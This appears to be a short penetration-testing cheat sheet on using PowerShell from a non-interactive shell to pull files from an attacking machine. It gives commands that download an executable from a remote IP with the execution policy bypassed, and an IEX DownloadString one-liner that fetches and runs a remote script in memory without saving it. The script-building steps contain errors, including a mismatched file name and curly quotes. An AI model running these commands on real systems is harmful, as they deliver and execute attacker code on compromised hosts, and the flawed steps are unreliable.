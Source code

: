 # Powershell

## Quick How To

* cannot use Powershell.exe with a non-interactive shell
* therefore, create a Powershell script then execute it

```bash
echo $storageDir = $pwd > wget.ps1
echo $webClient = New-Object System.Net.Webclient >> wget.ps1
echo $url = “[http://192.168.1.101/file.exe”](http://192.168.1.101/file.exe%E2%80%9D) >> wget.ps1
echo $file = “output-file.exe” >> wget1.ps1
echo $webclient.DownloadFile($url, $file) >> wget.ps1
```

* now, invoke the script

```bash
# use this to set the execution policy and download the file
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# or this one-liner
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/file.exe', 'newfile.exe')
```

## Execute Remote Powershell Files without Saving them Locally

```bash
# first, create or download a script on the attacking machine
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/testscript.ps1')
```

